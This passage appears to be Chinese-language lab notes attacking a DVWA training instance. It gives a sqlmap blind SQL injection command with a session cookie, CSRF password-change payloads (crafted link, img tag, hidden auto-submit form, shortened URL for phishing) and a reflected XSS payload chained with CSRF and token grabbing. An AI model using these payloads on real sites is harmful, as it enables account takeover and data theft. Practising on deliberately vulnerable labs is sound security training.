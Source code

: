 ```bash!
sqlmap.py -u "https://digidvwa.azurewebsites.net/vulnerabilities/sqli_blind/" --cookie="id=1; PHPSESSID=0i3t9fijt3qtlhqtq26umenok1; security=high" -p id --technique=BT --dbms="MySql" --os="Linux" --threads 5 --level 2 --batch --banner
```
    
## CSRF
Refer - https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/CSRF%20Injection/README.md
Refer - https://book.hacktricks.xyz/pentesting-web/csrf-cross-site-request-forgery

### Low
誘騙使用者點擊網址
```md!
https://digidvwa.azurewebsites.net/vulnerabilities/csrf/?password_new=w&password_conf=w&Change=Change
```

```md!
<img src="https://digidvwa.azurewebsites.net/vulnerabilities/csrf/?password_new=XD&password_conf=XD&Change=Change">
```

可使用縮址服務如`reurl`
```md!
https://reurl.cc/NRRNeQ
```
或者放在HTML中用於釣魚網站
```htmlembedded!
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://digidvwa.azurewebsites.net/vulnerabilities/csrf/">
      <input type="hidden" name="password&#95;new" value="w" />
      <input type="hidden" name="password&#95;conf" value="w" />
      <input type="hidden" name="Change" value="Change" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

### Medium
搭配Reflected XSS，Referer才不會被擋
**URL:**
`https://digidvwa.azurewebsites.net/vulnerabilities/xss_r/?name=</pre><ScRiPt>new Image().src="https://digidvwa.azurewebsites.net/vulnerabilities/csrf/?password_new=XD&password_conf=XD&Change=Change"</ScRiPt><pre>`

**URL(Encoded):**
`https://digidvwa.azurewebsites.net/vulnerabilities/xss_r/?name=%3C%2Fpre%3E%3CScRiPt%3Enew%20Image%28%29.src%3D%22https%3A%2F%2Fdigidvwa.azurewebsites.net%2Fvulnerabilities%2Fcsrf%2F%3Fpassword_new%3DXD%26password_conf%3DXD%26Change%3DChange%22%3C%2FScRiPt%3E%3Cpre%3E%23`

### High
抓CSRF Token
`https://digidvwa.azurewebsites.net/vulnerabilities/xss_r/?name=<img src=x onError=alert(1)></img>`
`document.getElementsByName("user_token")[0].value`
